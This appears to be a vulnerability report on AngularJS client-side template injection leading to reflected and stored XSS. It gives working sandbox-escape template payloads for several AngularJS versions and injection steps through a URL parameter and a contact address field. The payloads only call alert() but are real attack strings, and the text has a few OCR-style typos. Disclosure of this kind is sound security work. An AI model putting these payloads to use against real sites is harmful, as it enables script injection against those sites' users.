 ```
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```
**Angular 1.6.0**

```
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js"></script>
{{0[a='constructor'][a]('alert(1)')()}}
```

---

**Impact**

    Arbitrary code execution
    Information disclosure
    Cross-Site Scripting (XSS)
 ---   

**`Steps To Reproduce`**

**1. CSTI leads to XSS**
   

    Navigate to Go on https://www.example.com/?s=
    
    Add the payload to the parameter

```
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(/Mik/)');}}
```

`https://www.ecample.com/?s={{x = {‘y’:’’.constructor.prototype}; x[‘y’].charAt=[].join;$eval(‘x=alert(/Mik/)’);}}`

- XSS executed {F429434}

**2. Stored XSS via AngularJS Injection**

- Create an account on example.com
- Visit https://test.example.com/messages/referrals/contacts/
- Add a new contact
- In the address field, enter [[constructor.constructor('alert(1)')()]]
- XSS executed

**Recommendations**

   1. Input validation and sanitization
   2. Context-aware output encoding

---
   

